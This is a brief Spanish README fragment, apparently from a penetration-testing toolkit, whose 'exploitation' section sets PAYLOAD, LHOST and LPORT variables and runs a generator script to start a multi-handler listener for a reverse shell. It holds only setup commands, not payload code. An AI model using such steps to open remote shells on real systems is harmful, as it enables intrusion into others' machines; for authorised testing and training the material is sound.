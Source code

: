 # Seccion de explotacion

## Shell reversa

Previamente `export PAYLOAD=<nombre-payload>; export LHOST=<IP-local>; export LPORT=<puerto local>`

1) Generar un Multi Handler automatico: `multi-handler/generator.sh $PAYLOAD $LHOST $LPORT`
